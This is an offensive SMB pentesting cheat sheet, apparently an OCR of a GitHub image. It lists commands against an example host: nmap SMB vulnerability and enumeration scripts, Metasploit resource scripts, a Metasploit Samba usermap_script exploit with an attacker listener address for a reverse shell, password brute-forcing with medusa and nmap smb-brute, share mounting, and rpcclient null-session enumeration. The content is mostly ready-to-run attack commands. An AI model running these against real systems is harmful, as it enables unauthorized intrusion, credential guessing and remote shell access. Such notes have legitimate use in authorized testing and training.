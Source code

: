# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

# Check common security concerns
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc

# Extra validation
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt 
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln 
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
